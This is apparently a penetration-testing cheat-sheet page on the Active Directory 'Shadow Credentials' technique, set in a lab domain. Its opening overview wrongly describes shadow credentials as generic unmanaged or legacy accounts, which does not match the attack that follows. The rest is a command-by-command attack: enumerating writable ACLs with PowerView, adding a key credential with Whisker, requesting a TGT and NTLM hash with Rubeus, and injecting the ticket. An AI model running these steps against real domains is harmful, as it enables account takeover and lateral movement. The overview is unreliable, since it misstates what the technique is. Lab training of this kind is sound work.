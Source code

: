 # 🟢 Shadow Credentials

#### Shadow Credentials: An Overview

Shadow credentials refer to authentication methods or credentials that are not directly managed or visible through the primary security systems in an organization. These can arise from various scenarios such as legacy systems, improperly decommissioned accounts, or unauthorized user-created access points.

**Key Features:**

* **Hidden Access Points:** These credentials exist outside the purview of standard security protocols, making them hard to detect and manage.
* **Security Risk:** They increase the attack surface for cyber threats, as attackers can exploit these overlooked credentials.
* **Management Challenge:** Identifying and managing shadow credentials require specialized tools and vigilance.

**Mitigation Strategies:**

1. **Regular Audits:** Conduct comprehensive security audits to detect and assess unauthorized access points.
2. **Access Management Policies:** Implement strict policies and procedures for creating, modifying, and retiring user accounts and credentials.
3. **Continuous Monitoring:** Use security tools capable of monitoring and alerting on suspicious activities related to credential access.

Shadow credentials pose a significant security risk, and addressing them should be a priority for any organization's cybersecurity strategy.

### Abusing User Object

#### 1. Enumerate the permissions

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```

#### 2. Add the Shadow Credential

```
Whisker.exe add /target:supportXuser
```

#### 3. Using PowerView, see if the Shadow Credential is added.

```
Get-DomainUser -Identity supportXuser
```

#### 4. Request the TGT by leveraging the certificate

```
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show /nowrap
```

#### 5. Inject the TGT in the current session or use the NTLM hash

```
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```
